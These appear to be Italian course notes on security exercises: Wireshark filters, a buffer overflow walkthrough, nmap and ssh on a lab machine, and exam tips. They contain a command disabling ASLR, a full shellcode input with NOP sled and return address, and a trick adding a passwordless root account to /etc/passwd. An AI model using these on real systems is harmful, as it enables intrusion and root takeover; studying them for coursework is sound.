 # Correzione esercizi

# Esercizio suricata di ```neflix.com```

Analisi del traffico con wireshark

**Filtri wireshark**

Apply as filter / Prepare as filter 
ip.src=MIOIP

L'utilizzo di chiavi SNI da approfondire

# Shellcode
echo 0 | sudo tee /proc/sys/randomize_va_space

1. trovo quando scovrascrivo l'indirizzo di ritorno esattamente
2. calcolo codice payload e la sottraggo al numero di A
3. scrivo tanto NOP quanti vale la differenza
4. scrivo il codice shellcode
5. devo scoprire i 4 byte di indirizzo di ritorno (scoperto con x/200xw $esp), 
6. eseguendo quel codice vedo che a un certo punto le A finiscono
e lì intorno ci sono gli indirizzi a cui saltare per il ritorno, nel mio caso ffffd140
7. costruisco l'input

```shell
run $(perl -e 'print"\x90"x1441,"\xbf\x16\x6e\x8a\x7c\xdd\xc3\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x0c\x31\x7a\x12\x03\x7a\x12\x83\xd4\x6a\x68\x89\xb2\x79\x34\xeb\x10\x18\xac\x26\xf7\x6d\xcb\x51\xd8\x1e\x7c\xa2\x4e\xce\x1e\xcb\xe0\x99\x3c\x59\x14\x90\xc2\x5e\xe4\xd6\xac\x3f\x89\x7d\x11\xed\x30\x7e\x06\xbe\x3b\x9f\x65\xc0","\x69\xcb\xff\xff"' )
```

# 
```sh
nmap -sv [ip] -p 22,80,222 #analizza porte specifiche

# c'è un ssh 22, 222. Su 22 chiede la chiave, su 222 
# accetta anche la password

ssh -p 222 [ip] 
```

**Cosa fare per l'esame**

**diventare ROOT**

in etc/passwd -> 
toor::0:0:Hack:/root:/bin/bash #id 0, fa diventare root

in etc/shadow
openssl passwd -> genero la password

**da fare**
Installa la vm pentesting target